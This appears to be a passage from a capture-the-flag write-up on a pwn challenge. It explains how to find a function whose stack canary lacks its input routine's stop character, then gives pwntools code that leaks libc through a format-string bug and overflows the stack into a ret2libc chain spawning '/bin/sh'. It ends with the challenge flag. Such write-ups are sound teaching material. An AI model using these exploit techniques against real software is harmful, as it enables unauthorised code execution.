 To explain this better I will make an example with the second function class, the `gets` one. From the `gets` man page, we know that it reads until newline, so we expect all the canaries of the functions of this class to have a newline as whitespace. `fgets` also stops at newline, but the bof is done through `strcpy` which stops at null-bytes. `scanf` stops at any whitespace (null-bytes are not whitespaces). So if we find, for example, a function that uses `fgets`, but the corresponding canary contains a space as the whitespace, we can rewrite the whole canary and overflow the stack.

First of all we get all the canaries with the same method used to get all the functions bytes:
```python
canaries = [elf.read_symbol(f"__stack_chk_guard_{i}") for i in range(0x8000)]
```

Then we define the stop characters for each function class:
```python
stop_chars = [b"\x00\n", b"\n", b" \n\t\r"]
```

Finally we check if we have a mismatch:
```python
for i in range(0x8000):
    class_ = match(stations[i], reference_arr, always_same_arr)
    assert class_ != -1
    canary = canaries[i]

    if all(bytes([b]) not in canary for b in stop_chars[class_]):
        print(f"Canary mismatch for station_{i} ({canary})")
```

And we find station 14927!

### Exploit

Now the exploit is trivial, we leak libc with the `printf` vulnerability (this is possible, because we can send `{station_number}{format_string}` and the `atoi` will correctly convert the number, ignoring the format string), we go in the vulnerable station and perform `ret2libc`.

Select vulnerable station and leak libc (the first `printf` parameter is luckily a libc leak, so we get it with just `%p`):
```python
r.sendlineafter(b"number: ", b"14927%p")
r.recvuntil(b"14927")
libc.address = int(r.recvline().strip(), 16) - 0x1ed723
```

`ret2libc`:
```python
rop = ROP(libc)
rop.raw(rop.ret)  # stack alignment for `system`
rop.system(next(libc.search(b"/bin/sh\x00")))
weird_canary = b"eY iEuas"
r.sendlineafter(b"code:", b"AAAA" + weird_canary + b"A" * 8 + rop.chain())
```

[script for finding the mismatching canary](find-mismatch.py), [full exploit](exploit.py)

### Flag

`# uiuctf{the_average_sigpwny_transit_experience}`
